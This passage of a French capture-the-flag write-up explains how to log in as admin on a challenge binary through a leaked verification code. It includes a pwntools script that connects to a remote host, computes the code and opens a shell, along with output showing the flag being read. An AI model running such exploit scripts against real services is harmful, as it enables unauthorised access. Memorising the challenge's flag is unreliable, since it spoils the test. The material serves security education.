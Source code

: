 Nous rentrons alors l'username `admin` :
```
1
admin
00000090: 3a20 5573 6572 6e61 6d65 3a20 4f70 7469  : Username: Opti
000000a0: 6f6e 733a 2028 3129 2045 6e74 6572 2075  ons: (1) Enter u
000000b0: 7365 726e 616d 652c 2028 3229 2043 6f6e  sername, (2) Con
000000c0: 6669 726d 2075 7365 726e 616d 652c 2028  firm username, (
```

Puis nous rentrons le code de vérification que nous avons trouvé :
```
3
000000d0: 3329 2044 6f6e 653a 204c 6f67 6769 6e67  3) Done: Logging
000000e0: 2069 6e20 6173 2027 6164 6d69 6e27 0a45   in as 'admin'.E
000000f0: 6e74 6572 2079 6f75 7220 6175 7468 656e  nter your authen
1707
00000100: 7469 6361 7469 6f6e 2063 6f64 653a 201b  tication code: .
```

Nous n'avons pas `access denied` et un shell vient de s'ouvrir (vous ne pouvez
pas le voir ici).

### Exploitation à distance à l'aide d'un script

Nous pourrions utiliser `xxd` pour exploiter l'exécutable à distance mais
écrire un script python automatique est plus professionnel.

Voici le script :

```python
from pwn import *

conn = remote('34.123.210.162', 20231)

conn.send(b'2\r\n')
conn.recvuntil(b'Options')

leak = conn.recvuntil(b'Options')[-10:-8]
value = leak[1] * 256 + leak[0]

conn.send(b'1\r\nadmin\r\n')
conn.send(b'3\r\n' + str(value).encode() + b'\r\n')

conn.interactive()
conn.close()
```

Ce programme récupère les deux octets qui nous intéresse (avec `recvuntil`),
renseigne l'username `admin`, se connecte avec le code trouvé et nous rend la
main avec le shell que le programme à ouvert à l'aide de la méthode
`interactive`.

Essai :
```
[+] Opening connection to 34.123.210.162 on port 20231: Done
[*] Switching to interactive mode
: (1) Enter username, (2) Confirm username, (3) Done: Username: Options: (1) Enter username, (2) Confirm username, (3) Done: Logging in as 'admin'
Enter your authentication code: $
$ id
uid=1001(re3) gid=1002(re3) groups=1002(re3)
$ cat flag.txt
poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}
```
